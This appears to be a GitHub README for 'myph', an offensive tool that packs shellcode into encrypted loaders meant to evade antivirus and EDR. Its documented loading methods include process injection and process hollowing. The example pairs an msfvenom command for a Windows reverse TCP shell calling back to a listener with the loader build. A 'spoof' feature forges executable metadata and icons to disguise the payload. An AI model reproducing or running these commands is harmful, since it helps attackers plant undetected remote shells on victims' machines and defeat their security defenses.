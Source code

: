 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## How to use the software ?

> Please note this project is under development & subject to changes.
> Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/CMEPW/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/CMEPW/myph) like so:
```bash
# /!\ lowercase is important /!\
go install github.com/cmepw/myph@latest
```

### Usage

```bash
Usage:
  myph [flags]

Flags:
  -e, --encryption encKind   encryption method. (allowed: AES, chacha20, XOR, blowfish) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption)
  -f, --out string           output name (default "payload.exe")
  -p, --process string       target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string     shellcode path (default "msf.raw")
      --sleep-time uint      sleep time in seconds before executing loader (default: 0)
  -t, --technique string     shellcode-loading technique (allowed: CRT, ProcessHollowing, CreateThread, Syscall) (default "CRT")
  -v, --version              version for myph
```

#### Loader Methods

This tool supports few methods for now, but aims to add more as time goes on:
- CreateThread
- CreateRemoteThread
- Syscall
- Process hollowing

If you don't know what that is about, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~


#### Example

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something.exe

# you should find your payload here
file ./something.exe
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

#### Editing file properties

A subcommand is available to edit a PE file's properties & change its icon or file version (for instance).
For more information on CLI usage, you can run:
```bash
# will give you a little help display
./myph spoof --help

# will edit demo.exe with the data specified in example.json
./myph spoof --pe demo.exe --file example.json
```

It expects a JSON file, containing the metadata you want to set. You can find an example in `.github/test-data` directory.

Information on resource types and language IDs can be found [here](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-types) and [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lcid/70feba9f-294e-491e-b6eb-56532684c37f).

You can set data depending on the language.
BMP, ICO, and PNG files are supported, and you can a wide array of information:

```json
{
  "RT_VERSION": {
    "#1": {
      "0000": {
        "fixed": {
          "file_version": "1.2",
          "product_version": "1.2.3",
          "flags": "Debug,Patched",
          "timestamp": "2020-12-18T23:00:00+01:00"
        },
        "info": {
          "0409": {
            "Comments": "that should do it",
            "CompanyName": "Smersh",
            "FileDescription": "smrsh 4 evr",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          },
          "040C": {
            "Comments": "ca devrait le faire",
            "CompanyName": "Smersh",
            "FileDescription": "smrh pr tjrs",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          }
        }
      }
    }
  }
}
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~

A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
